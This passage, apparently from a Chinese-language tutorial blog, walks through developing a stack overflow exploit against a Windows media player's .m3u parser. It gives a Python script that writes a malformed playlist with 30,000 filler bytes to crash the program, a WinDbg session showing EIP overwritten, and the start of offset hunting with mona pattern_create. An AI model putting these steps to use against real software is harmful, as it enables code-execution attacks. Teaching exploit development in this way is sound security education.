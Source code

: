 程序弹出了一个对话框，提示了一个错误，点击确定后程序一切正常，并没有崩溃。

看起来这份exp在我们的环境下不但不能用，甚至连崩溃效果都达不到。

我们只好自己尝试填充更大的数据来引起崩溃，改写一下payload:

```python
#!/usr/bin/python
import sys

header = "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46" 
header += "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F"
header += "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20"
header += "\x0D\x0A\x44\x3A\x5C"

junk = "\x41" * 30000

payload = header + junk

if len(sys.argv) < 2:
    print 'usage: python ' + sys.argv[0] +' name.m3u'
else:
    with open(sys.argv[1],"w") as f:
        f.write(payload)
```

30000这个count是一个模糊数据，当30000个‘A’填充时，程序确实崩了：

![](/images/180624_5.png)

根据我们对栈溢出的理解，程序崩溃是因为当前栈帧的返回地址被0x41414141所覆盖，而0x41414141处的指令是不可控的（内存空间要么未分配，要么指令因不可控而异常）。通过调试器来定位一下，程序的最后是否按照预期所想。使用Windbg附加进程：

![](/images/180624_6.png)

g命令运行起来，加载evil2.m3u：

![](/images/180624_7.png)

可以看到程序确实跑到了0x41414141指令处，而该处地址是不可访问的：

![](/images/180624_8.png)

## 定位ret eip

但要如何定位ret eip在栈上的地址呢？我们填充的数据全是'A'，崩溃时根本看不出是哪个地址处的'A'覆盖了ret addr。

对于这种情形，有2种常见的手法来解决：

1. 第一种是直接通过动态调试和静态调试，比如找到关键函数调用地址，通过下断点的方式，在程序崩溃前后观察栈内存空间，如果是静态调试的话甚至可以根据反汇编码直接计算出ret addr与可控输入数据的距离。
2. 第二种是懒人万用方法，可以直接用一组pattern特征junk来填充，观察程序崩溃时跳转的地址来定位ret addr与数据起始的偏移。

第二种方法无疑比较简单，这里就使用它来操作一下，直接用windbg的mona.py插件：

`!py mona pattern_create 30000`
